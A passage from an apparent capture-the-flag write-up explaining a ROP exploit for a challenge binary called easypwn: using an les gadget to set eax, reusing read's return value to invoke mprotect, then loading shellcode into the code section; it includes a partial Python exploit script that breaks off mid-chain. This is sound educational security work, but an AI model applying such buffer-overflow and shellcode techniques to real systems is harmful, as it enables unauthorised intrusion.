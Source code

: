 Now this is a strange way to set `eax`. The `les` operand does the following: it loads the 48-bit value at the location of `esi+ebx*2` and sets `eax` to the first 32 bits and the `es` register to the last 16 bits. *However*, `es` does not tolerate just any old value. If the wrong value is passed, the program SEGFAULTS. To keep things simple, I looked for values in the binary like this: `0x0000000i, 0x0000`. This would load 0xi in `eax` and 0x0 in `es`.

It seemed nearly impossible to build a ROP chain that would open, read and write the data from the flag file. For instance, where would I write the filename? On the stack? ASLR is enabled so I'd have no idea of knowing where the stack is. Instead, I went with a different strategy. 

I am going to use the syscall `mprotect` to make the code section from 0x8048000 to 0x8049000 writeable. When this succeeds, I can use syscall `read` to read in any shellcode from stdin to the code section. Finally, I simply return to that region. 

A problem here is that I can't set `eax` to 125 (==mprotect) with my little gadget. Instead, I re-use the return value of the last syscall before the buffer overflow: `read`! The return value of that syscall will be the number of bytes read... If we pass in 125 bytes as payload, then we get exactly the syscall number of mprotect in `eax`!

Here's what I came up with, bit by bit. I started the binary via socat, to emulate the target system: 

```bash
bas@tritonal:~/adventctf$ socat TCP-LISTEN:28099,fork EXEC:./easypwn
```

And this is the ROP chain I built:

```python
#!/usr/bin/python

import struct
import socket
import telnetlib

SYSCALL = 0x8048080
POPRET = 0x80480eb  # pop esi; ret
ADDESP = 0x80480bb  # add esp, 0x10; ret
LESEAX = 0x80480e9  # les eax,FWORD PTR [esi+ebx*2]

def p(x):
  return struct.pack("<L", x)

payload = ""

payload += "A"*16       # smash stack!

payload += p(SYSCALL)   # I rely on the return value of the read syscall
payload += p(ADDESP)    # fix stack with add esp, 10; ret
payload += p(0x8048000) # address to modify
payload += p(0x1000)    # length (page-aligned!)
payload += p(0x7)       # PROT_READ|PROT_WRITE|PROT_EXEC
payload += "AAAA"       # dummy value

# reset ebx so we can set eax using the next gadget
payload += p(SYSCALL)
payload += p(ADDESP)
payload += p(0)         # set ebx = 0
payload += p(0x1000)    # don't care
payload += p(0x7)       # don't care
payload += "AAAA"       # dummy

# set eax = 3
# 0x804834a:    0x00000003  0x00000000
payload += p(POPRET)    # pop esi; ret
payload += p(0x804834a) # set esi = 0x804834a
payload += p(LESEAX)    # eax -> 0x3 == syscall_read
```